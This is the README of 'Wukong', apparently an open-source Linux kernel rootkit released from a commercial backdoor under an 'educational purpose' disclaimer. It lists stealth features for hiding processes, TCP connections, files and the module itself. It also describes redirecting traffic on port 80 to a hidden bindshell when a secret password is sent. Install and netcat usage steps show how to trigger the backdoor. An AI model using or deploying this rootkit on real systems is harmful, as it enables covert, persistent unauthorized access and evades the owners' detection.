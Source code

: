 # Wukong: a LKM rootkit for Linux kernel 2.6.x, 3.x and 4.x<br />
<p>
	&nbsp;&nbsp;&nbsp;&nbsp;The idea of wukong is from a commercial Linux Backdoor software, designed for a hacking team in early 2015 for legal using. Now for educational perpose, I will release an open source version. <strong>Please call me good man:).</strong> 
</p>
<p>
	<strong>&nbsp;&nbsp;&nbsp;&nbsp; If you want to buy me a bottle of beer, please contact me via hanj4096@gmail.com.</strong> 
</p>
<br />
<h2>
	<span style="color:#E53333;">Note:</span> 
</h2>
<span style="color:#E53333;"><strong>&nbsp;&nbsp;&nbsp;&nbsp;This kernel rootkit is just for educational purpose and it shouldn't be used for any illegal activities, use this at your own risk.</strong></span><br />
<br />
<br />
<br />
<h2>
	Function
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;1. Hide Linux Process.<br />
&nbsp;&nbsp;&nbsp;&nbsp;2. Hide TCP connection.<br />
&nbsp;&nbsp;&nbsp;&nbsp;3. Hide File/Directory.<br />
&nbsp;&nbsp;&nbsp;&nbsp;4. Hide wukong.ko.<br />
&nbsp;&nbsp;&nbsp;&nbsp;5. Redirect TCP connection to backdoor server by using the specific confidential password.<br />
<br />
<h2>
	Usage
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;1. Environment:<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubunt-14.04 (1.1.1.33) --- (1.1.1.1)ubunt-14.04 &nbsp;<br />
&nbsp;&nbsp;&nbsp;&nbsp;(client)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; (server)<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;2. Test step:<br />
&nbsp;&nbsp;&nbsp;&nbsp;a. on server<br />
&nbsp;&nbsp;&nbsp;&nbsp;cd wukong/<br />
&nbsp;&nbsp;&nbsp;&nbsp;sudo ./install.pl<br />
&nbsp;&nbsp;&nbsp;&nbsp;sudo nc -k -l 80<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;b. on client<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;http<br />
&nbsp;&nbsp;&nbsp;&nbsp;ifconfig<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS：The connection will be redirected to bindshell<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;111111<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS: a rst will be received.<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;111111<br />
&nbsp;&nbsp;&nbsp;&nbsp;aaaaaa<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS: The connection will be connected with tcp 80.<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;3. Result:<br />
&nbsp;&nbsp;&nbsp;&nbsp;a. Bindshell file is hidden.<br />
&nbsp;&nbsp;&nbsp;&nbsp;b. Tcp 8000 connection is hidden.<br />
&nbsp;&nbsp;&nbsp;&nbsp;c. Bindshell process is hidden<br />
&nbsp;&nbsp;&nbsp; d. wukong.ko is hidden<br />
&nbsp;&nbsp;&nbsp;&nbsp;e. If "http" is the first four bytes to TCP 80, connection will be established with bindshell.<br />
<br />
<br />
<h2>
	Tested OS:
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;CentOS-5.5-i386-bin-DVD.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 2.6.18-408.el5 #1 SMP Tue Jan 19 09:13:33 EST 2016 i686 i686 i386 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;CentOS-5.5-x86_64-bin-DVD<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux 2.6.18-194.el5 #1 SMP Fri Apr 2 14:58:14 EDT 2010 x86_64 x86_64 x86_64 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.2-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.2-desktop-amd64.iso&nbsp; &nbsp;<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.3-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.3-desktop-amd64.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
<br />
<br />
<h2>
	ToDo:
</h2>
&nbsp;&nbsp;&nbsp; Do performance tuning, make it can work on Linux server with large traffic.<br />
&nbsp;&nbsp;&nbsp; Adding more features.

